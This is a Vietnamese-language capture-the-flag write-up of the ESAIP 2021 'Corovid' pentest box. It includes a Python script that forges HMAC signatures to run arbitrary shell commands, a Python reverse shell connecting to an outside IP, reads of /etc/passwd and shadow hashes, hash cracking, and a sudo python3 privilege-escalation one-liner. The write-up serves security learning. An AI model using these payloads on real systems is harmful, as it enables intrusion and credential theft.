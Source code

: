 ```yaml
---
title: "CTF ESAIP HACK CHALLENGE 4th edition - 29 Mai 2021 Final Writeup Box Pentest Corovid"
date : 2021-06-03T00:00:00+08:00
tags: ["CTF", "France", "Box", "ESAIP"]
authors: ["kn"]
description: "ESAPI 20/5/2021 writeup"
showFullContent: false
---
```



## Motivation

Vào một buổi trưa nắng nóng khi dịch bệnh tràn lan, mình có nhận được tin nhắn thử "xoạc" 1 cuộc thi [CTF](https://ctf.esaip.org/) do ESAIP École d'Ingénieurs tổ chức. Đây là kì thi CTF đầu tiên cũng như lần đầu tiên mình viết write up nên cũng chỉ hi vọng lót đường. 

Ở đây thì có một bài về Box pentest rất thú vị là Corovid (nó ngốn của mình 3 tiếng mới xong :( ) 

Challage web được xây dựng bằng Python ở back-end qua command `nmap -sC -sV -A -p- <ip>`. Các request được gửi từ phía Front-End đến Back-End theo các khoảng thời gian đều đặn bằng lệnh shell để để lấy kết quả mới nhất về số ca Covid trên toàn thế giới. Các request cũng đã được ký ở phía Front-End.

![Nmap scan](nmap.png)

Request Sample:

```
GET /get-last-results?
shell=cat%20/tmp/.corovid_value.txt&auth_ts=1620764393&auth_sign=d643a98d4
ce0b407beacdf750a55cff8b371d207bfbec0ae0667c1aa48b2f33a HTTP/1.1
```

![Client code](scr1.png)
![Client code](src2.png)

Đối với những bài có sourcecode sẵn như thế này, thì mình thường lướt sơ và hiểu toàn bộ cấu trúc của source trước khi làm. Sau khi xem toàn bộ source thì mình phát hiện một số điều đáng nghi.

Code khá là lộn xộn nhưng có thể dễ dàng thấy được function y() dùng để tạo 1 request tới back-end với mẫu như ở trên. Hơn nữa, bằng cách đặt một breakpoint tại lúc tạo chữ kí với `HMAC256` thì chúng ta có thể thấy được request sẽ kèm 1 shell command tới sever để query số ca nhiễm covid ( ở đây là `cat /tmp/.corovid_value.txt`)

Pattern khi kí sẽ gồm 
```javascript
HmacSHA256("{timestamp 10 digits}:{commande unix}", "You are a hacker")
```

vậy nên dễ dàng có thể tái tạo lại một signature khác kèm theo câu lệnh mình mong muốn cùng với timestamp, dưới đây là một ví dụ:


```python
command = input("command : ")
timestamp = str(int(datetime.datetime.now().timestamp()))
sign = hmac.new("You are a hacker".encode(), (timestamp + ":" + command).encode(), hashlib.sha256).hexdigest()
parameters = {
 "shell":command,
 "auth_ts":timestamp,
 "auth_sign":sign
}
rep = requests.get(url,params=parameters)
print(rep.text)
```

Vì máy chủ web sử dụng python 3 (được phát hiện trong quá trình nhận dạng với nmap), có thể thông qua tập lệnh tạo request với chữ ký hợp lệ để thực hiện trình reverse shell với payload ( có thể đọc thêm về reverse shell payload ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python))

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("51.38.123.73",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

Tada! Đã có thể login vào shell với user là `pfizer`.
Mình có thử xem trong `/home/pfizer` có 1 file `flag.txt` nhưng đây không phải thứ cần tìm ( đời đâu dễ như thế :( )

```bash
ls -la /root
```

thì có thể thấy `/root/flag.txt` ( mình đoán đây mới là thứ cần tìm ).

Bằng cách hiển thị nội dung của /etc/passwd, chúng ta thấy rằng có 3 người dùng có shell:

* root
* pfizer
* astrazeneca

Hơn nữa, ở trong `/home/pzfizer` có thể dễ dàng thấy web server được lưu ở đây và được chạy dưới user `pfizer` bằng cách list tất cả process với command `ps aux`

![ps aux with user pfizer](psaux.png)

Một điều lạ là chúng ta chỉ có thể thấy các process của người dùng hiện tại là pfizer.
Mình thử liệt kê tất cả các file thuộc quyền sở hữu ứng với các `user` bằng command 
```bash
ls -laR / 2>/dev/null | grep $USER
```

Chúng tôi thấy rằng một tệp ẩn có tên `.bckp_2021-XX-XX_XX:XX.zip` trong thư mục /srv trong đó chủ sở hữu là `root` có thể đọc được bởi group `pfizer`.

![list file by owner](ls.png)

Unzip nó ra thì có thể thấy một bản backup chứa tất cả các hash của system password.

![unzip](image-015.png)
![unzip](image-016.png)

```bash
grep -rn ENCRYPT_METHOD /etc/login.defs

265:# This variable is deprecated. You should use ENCRYPT_METHOD.
279:ENCRYPT_METHOD SHA512
282:# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
```

User pfizer chỉ dùng để run web service nên mình cần quan tâm tới user `root` và `astrazeneca`

```bash
tail shadow | grep "astrazeneca" | awk -F':' '{print $2}'
```

![hash password user astrazeneca](image-018.png)

Crack hash password thì mình dùng `hashcat` với wordlist là [rockyou](https://github.com/brannondorsey/naive-hashcat/)

Tada! Password là `monsauveur`

Lúc này thì khá đơn giản rồi, chỉ cần check quyền sudo execution của user với `sudo -l` và có thể thấy là user `astrazeneca` có thể chạy python3 mà không cần password :v 

**Exploitation**

```bash
sudo /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Flag](image-023.png)

